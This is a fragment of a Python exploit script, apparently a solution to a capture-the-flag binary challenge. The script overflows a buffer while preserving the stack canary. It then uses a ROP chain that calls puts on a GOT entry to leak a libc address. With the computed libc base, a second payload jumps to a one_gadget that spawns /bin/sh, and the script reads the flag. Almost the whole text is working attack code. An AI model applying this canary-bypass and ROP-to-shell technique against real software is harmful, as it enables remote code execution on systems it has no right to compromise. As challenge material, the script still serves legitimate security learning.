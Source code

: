 ```python
payload += p64(0x0)
payload += b"A" * 0x10
payload += p64(canary)      # canary
payload += p64(0x0)         # rbp

POP_RDI = pie_base + 0x0000000000001503
ropchain = p64(POP_RDI)
ropchain += p64(exe.got["puts"])
ropchain += p64(exe.plt["puts"])
ropchain += p64(exe.sym.game)
payload += ropchain
play(payload, io, False)
io.recvuntil(b"Goodbye!\n")
leak = u64(io.recvline()[:-1].ljust(8, b"\x00"))
print(f"[+] puts: {hex(leak)}")
PUTS_OFFS = 0x84420
libc_base = leak - PUTS_OFFS
print(f"[+] libc_base: {hex(libc_base)}")

payload = b"A" * 0x10
payload += p64(0x0)
payload += p64(0x0)
payload += p64(0x0)
payload += b"A" * 0x10
payload += p64(canary)      # canary
payload += p64(0x0)         # rbp

ONE_GADGET = libc_base + 0xe3b01        # execve("/bin/sh", r15, rdx)
ropchain = p64(ONE_GADGET)

payload += ropchain
play(payload, io, False)
io.recvuntil(b"Goodbye!\n")
time.sleep(1)
io.sendline(b"cat flag")
res = io.clean(1)
print(res.decode())

```